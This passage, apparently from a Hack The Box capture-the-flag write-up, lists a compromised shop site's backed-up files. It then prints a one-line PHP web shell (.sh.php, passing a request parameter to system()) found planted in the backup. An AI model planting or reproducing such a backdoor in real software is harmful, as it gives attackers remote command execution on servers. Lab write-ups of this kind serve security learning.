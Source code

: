 ```text
shop/cache/_cache_links_4af2ac3a6155900f3489935658237ccc
shop/cache/6de25837a78f9006034e2ebcde4f92c5a9423e0e_320x320_fwb.jpg
shop/cache/3a3f11dade5b8735b32347d7c72635cd36dfc6ee_640x640_fwb.jpg
shop/cache/_cache_box_site_footer_3cfe8cf07afa30c7ded728480aa1c4a0
shop/cache/c5515f64d0a81ec44e9546d16d45997424b22830_0x60_f.png
shop/cache/_cache_admin_widgets_7e6025d3c49df3bb009befb1e7d11de7
shop/cache/_cache_translations_a5cffc86b04ab3f12f6c4bbcc7089c0a
shop/cache/c548260d44e24d535ba3fccc3c43ba05c7ed93f9_640x640_fwb.jpg
shop/cache/83bc2f1a42a15397099d43cb6485bd45fbc94701_320x320_fwb.jpg
shop/cache/_cache_box_latest_products_3525edd76b7337df655e2836de07dae6
shop/cache/_cache_box_site_menu_927c4e77d649c0caf82035ca4a2deae5
shop/cache/_cache_box_manufacturer_logotypes_09265003c2d15fc1f6b0585970484255
shop/cache/c5515f64d0a81ec44e9546d16d45997424b22830_0x30_f.png
shop/cache/_cache_widget_discussions_8b2f549ef58aea26d2e520c67c774ec6
shop/cache/_cache_widget_addons_a0c61a130a70a3f9a268e4de8ceefed7
shop/cache/3a3f11dade5b8735b32347d7c72635cd36dfc6ee_320x320_fwb.jpg
shop/cache/6de25837a78f9006034e2ebcde4f92c5a9423e0e_640x640_fwb.jpg
shop/cache/_cache_box_campaign_products_12a69b81ba2893c250481876b44689ef
shop/cache/83bc2f1a42a15397099d43cb6485bd45fbc94701_640x640_fwb.jpg
shop/cache/_cache_box_popular_products_ae023d8d43ee40f30f421b5074672c14
shop/cache/_cache_widget_graphs_ac212c15101de56b09819c0fc75e10c8
shop/cache/_cache_links_3416e6563a45c12fd74c3f251f5c0368
shop/cache/583f8673ff92f9fd4c20ec8b1efe1d33c0002251_640x640_fwb.jpg
shop/cache/index.html
shop/cache/4f7c546191e44cdaa756f2794c7cb01451ab17bb_24x24_c.png
shop/robots.txt
shop/favicon.ico
shop/ext/
---snipped---
shop/ext/index.html
```

It seemed like a backup of the whole file structure of the site. There definitely had to be some interesting information in here, but there was a lot to go through. After searching through the files for awhile, it looked like the site had been compromised at some point, since there was a PHP backdoor included in the backup.

```text
┌──(zweilos㉿kali)-[~/htb/compromised/shop]
└─$ cat robots.txt                                  
User-agent: *
Allow: /
Disallow: */cache/*
Sitemap: /feeds/sitemap.xml

┌──(zweilos㉿kali)-[~/htb/compromised/shop]
└─$ cat .sh.php    
<?php system($_REQUEST['cmd']); ?>
```

The `robots.txt` and `sitemap.xml` did not exist on the live site, perhaps they were removed after the site was compromised?
